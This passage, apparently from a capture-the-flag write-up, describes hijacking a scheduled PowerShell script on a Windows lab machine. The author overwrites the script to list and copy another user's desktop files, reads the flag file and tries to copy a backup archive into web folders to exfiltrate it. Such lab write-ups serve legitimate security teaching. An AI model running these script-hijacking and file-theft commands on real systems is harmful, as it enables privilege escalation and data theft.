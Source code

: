 #### decoder Desktop

Before I get to code changes, I'll do some really basic enumeration,
starting with the home directory of decoder.MINION. Noticing that the
next run was less than 30 seconds away, I'll backup the original `c.ps1`
and update the original to list the files on decoder.MINION's desktop,
where I expect to find `user.txt`:



    Minion> copy \sysadmscripts\c.ps1 \sysadmscripts\c.ps1.bak
    Minion> echo 'dir C:\users\decoder.minion\desktop > C:\programdata\0xdf' > \sysadmscripts\c.ps1



After that runs, there's data in `\programdata\0xdf`:



    Minion> cat \programdata\0xdf


        Directory: C:\users\decoder.minion\desktop


    Mode                LastWriteTime     Length Name                               
    ----                -------------     ------ ----                               
    -a---          9/4/2017   7:19 PM     103297 backup.zip                        
    -a---         8/25/2017  11:09 AM         33 user.txt



I'll copy both those files to somewhere I can read:



    Minion> echo 'copy C:\users\decoder.minion\desktop\* C:\programdata\' > \sysadmscripts\c.ps1



Once that runs, I can read `user.txt`:



    Minion> type \programdata\user.txt
    40b949f9************************



## Shell as Administrator

### backup.zip

#### Exfil Fails

My first thought was to get this off the server by copying it into one
of the web directories, and then downloading it. I believe that the web
user doesn't have write access to these folders, as they all failed:



    Minion> copy C:\programdata\backup.zip C:\inetpub\public\backend\backup.zip
    Minion> copy C:\programdata\backup.zip C:\inetpub\public\backup.zip
    Minion> copy C:\programdata\backup.zip C:\inetpub\wwwroot\backup.zip
